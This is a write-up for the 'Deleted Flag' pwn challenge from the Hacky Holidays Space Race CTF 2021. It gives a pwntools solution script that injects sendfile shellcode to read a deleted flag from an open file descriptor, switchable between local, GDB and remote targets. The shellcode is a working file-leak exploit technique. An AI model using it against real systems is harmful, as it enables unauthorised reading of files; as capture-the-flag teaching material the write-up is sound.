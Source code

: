 ```yaml
---
name: Deleted Flag (2021)
event: Hacky Holidays Space Race CTF 2021
category: Pwn
description: Writeup for Deleted Flag (pwn) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Deleted Flag

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=2368s "Hacky Holidays Space Race 2021: Deleted Flag")

## Challenge Description

> We've removed your flag. Good luck getting it back.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break fopen
continue
'''.format(**locals())

# Binary filename
exe = './app'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Save the flag to file
write('flag.txt', 'CTF{fake_flag_for_testing}')

# Start program
io = start()

# https://www.tutorialspoint.com/unix_system_calls/sendfile.htm
shellcode = asm(shellcraft.sendfile(1, 3, 0, 4096))  # out_fd is stout (1), in_fd is (3) locally and (5) remotely
write('payload', shellcode)

# Send the payload
io.sendlineafter('flag?', shellcode)

# Got Shell?
io.interactive()
```
{% endcode %}
